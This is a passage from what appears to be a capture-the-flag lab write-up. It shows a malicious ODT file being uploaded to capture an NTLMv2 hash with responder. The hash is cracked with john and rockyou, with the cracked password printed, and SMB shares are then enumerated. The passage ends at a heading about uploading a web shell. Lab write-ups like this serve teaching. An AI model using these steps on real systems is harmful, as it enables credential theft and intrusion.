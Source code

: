 ```

Please enter IP of listener: 192.168.45.197
```

The script also generates the file `bad.odt` for us to upload. I started a `responder` instance and uploaded the file. After a while, `responder` would capture a hash:

<figure><img src="../../../.gitbook/assets/image (1308).png" alt=""><figcaption></figcaption></figure>

This hash can be cracked immediately to get the password for the user:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt ntlm_hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
winniethepooh    (thecybergeek)     
1g 0:00:00:00 DONE (2023-07-05 23:58) 100.0g/s 409600p/s 409600c/s 409600C/s slimshady..oooooo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

### SMB Shares -> Upload Web Shell

There wasn't SSH or WinRM open on the system, so instead, let's try to enumerate SMB using these credentials.

`smbmap` reveals that we can read some shares:

```
$ smbmap -u thecybergeek -p winniethepooh -H 192.168.197.188     
[+] IP: 192.168.197.188:445     Name: 192.168.197.188                                   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        WebApp                                                  READ ONLY
```
